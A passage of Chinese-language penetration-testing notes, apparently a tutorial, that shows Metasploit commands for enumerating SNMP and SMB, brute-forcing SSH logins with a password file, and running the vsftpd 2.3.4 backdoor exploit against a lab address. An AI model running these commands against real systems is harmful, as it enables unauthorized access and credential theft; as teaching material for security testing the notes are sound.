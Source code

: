 1. 定义： SNMP 全称 简单网络管理协议，由一组网络管理的标准组成，包含一个应用层协议、数据库模型和一组资源对象，该协议能够支持网络管理系统，用以检测连接到网络上的设备是否有任何引起管理上关注的情况
2.  执行： 目标主机开启 SNMP 服务：

    ```shell
    use auxiliary/scanner/snmp/snmp_enum 
    ```

​ `可以查到的信息： 服务器硬件信息、当前运行进程`

### 3. 基于 SMB 协议进行信息收集

1. 介绍： SMB 全称 服务器消息块，又称网络文件共享系统，是一种应用层网络传输协议，主要功能是使网络上的机器能够共享计算机文件、打印机、串行端口和通讯等资源
2. 扫描版本号 `use auxiliary/scanner/smb/smb_enumshares`
3.  扫描共享文件(账号、密码)

    ```shell
    use auxiliary/scanner/smb/smb_enumshares
    set SMBUser Administrator
    set SMBPASS 123456
    ```
4.  使用 SMB\_lookupsid 扫描系统用户的信息

    ```shell
    use auxiliary/scanner/smb/smb_lookupsid
    set SMBUser Administrator
    set SMBPASS 123456
    ```

### 4. 基于SSH协议信息收集

1.  查看 SSH 服务版本信息

    ```shell
    use auxiliary/scanner/ssh/ssh_version     # 辅助模块
    set rhosts 192.168.18.137  # 设置目标参数
    run # 执行
    ```
2.  对 SSH 暴力破解

    ```shell
    use  auxiliary/scanner/ssh/ssh_login  # 使用攻击模块
        set rhosts 192.168.18.137  # 设置目标参数
        set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
        set VERBOSE  true # 显示破解过程
        run # 执行
        seesions  # 显示会话
        sessions -i 1 # 使用指定会话
    ```

### 4. 基于 FTP 协议进行信息收集

```shell
use auxiliary/scanner/ftp/ftp_version # 使用指定模块 查看 FTP 版本
	set rhosts 192.168.18.137  # 设置参数
	run  # 执行
use  exploit/unix/ftp/vsftpd_234_backdoor  # 使用指定版本的模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
```
